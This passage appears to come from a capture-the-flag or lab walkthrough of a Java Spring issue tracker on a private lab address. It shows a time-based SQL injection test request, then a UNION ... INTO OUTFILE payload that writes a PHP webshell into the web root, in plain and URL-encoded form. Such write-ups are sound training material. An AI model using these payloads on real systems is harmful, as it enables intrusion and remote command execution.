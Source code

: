This custom code doesn't follow the Java Spring conventions to access the database and contains a clear SQL injection vulnerability.

## Exploitation

### SQL Injection Vulnerability

We can now test our theory. If we navigate to `http://192.168.120.130:17445/issue/checkByPriority?priority=Normal`, we are greeted by a login page. We can easily create a user account with the _Register_ button.

With that done, we can try again. We are now greeted by the following error message.

> There was an unexpected error (type=Method Not Allowed, status=405).

That is strange, the source code indicates it should accept GET requests. This means that the source code might have been modified, but let's simply try a POST request using Burp for now.

This worked. Next, we'll try a simple SQL injection payload to verify our theory.

```
POST /issue/checkByPriority?priority=Normal'+UNION+SELECT+sleep(5);+--+- HTTP/1.1
Host: 192.168.120.130:17445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=E408CE3E9BBBEC15DCAD194F380E68A9
Upgrade-Insecure-Requests: 1
```

After sending this request, we notice that the query takes five seconds to execute, which confirms the vulnerability.

The next step is to get code execution. Using the details extracted from the **phpinfo.php** file earlier, we know the web root of the PHP server where we can write a reverse shell payload.

```
$_SERVER['DOCUMENT_ROOT']	/srv/http
```

Let's test this theory. We will use the following simple webshell.

```
<?php echo exec($_GET["cmd"]);
```

The final payload will look like this.

```
priority=Normal' UNION SELECT (<?php echo exec($_GET["cmd"]);) INTO OUTFILE '/srv/http/cmd.php'; -- 
```

Using a tool like [URL Encoder](https://www.urlencoder.org/), we encode the string to be URL-compatible.

```
Normal%27+UNION+SELECT+%27%3C%3Fphp+echo+exec%28%24_GET%5B%22cmd%22%5D%29%3B%27+INTO+OUTFILE+%27%2Fsrv%2Fhttp%2Fcmd.php%27%3B+--+
```
